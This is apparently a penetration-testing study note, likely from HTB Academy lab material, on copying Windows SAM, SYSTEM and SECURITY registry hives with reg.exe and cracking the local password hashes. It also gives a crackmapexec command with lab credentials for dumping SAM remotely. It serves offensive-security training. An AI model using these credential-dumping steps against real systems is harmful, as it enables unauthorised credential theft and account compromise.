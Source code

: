 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Concepts
  - Information
---
```

With access to a non-domain joined Windows system, we may benefit from attempting to quickly dump the files associated with the SAM database to transfer them to our attack host and start cracking hashes offline.

#### Copying SAM Registry Hives

There are three registry hives that we can copy if we have local admin access on the target; each will have a specific purpose when we get to dumping and cracking the hashes. Here is a brief description of each in the table below:

| Registry Hive   | Description                                                                                                                                                |
| --------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `hklm\sam`      | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| `hklm\system`   | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                              |
| `hklm\security` | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.                                        |

```cmd-session
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

The operation completed successfully.
```

## Dumping Hashes

See [[Impacket#Dump Credentials]] and [[CrackMapExec#Extract Hashes from SAM Database]]

## Cracking Hashes

1. Add hashes to a list

```shell-session
sudo vim hashestocrack.txt

64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
6f8c3f4d3869a10f3b4f0522f537fd33
184ecdda8cf1dd238d438c4aea4d560d
f7eb9c06fafaa23c4bcf22ba6781c1e2
```

2. Crack hashes using [[Hashcat#NT Hashes]] or [[John the Ripper]]


## Dumping Remotely

```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

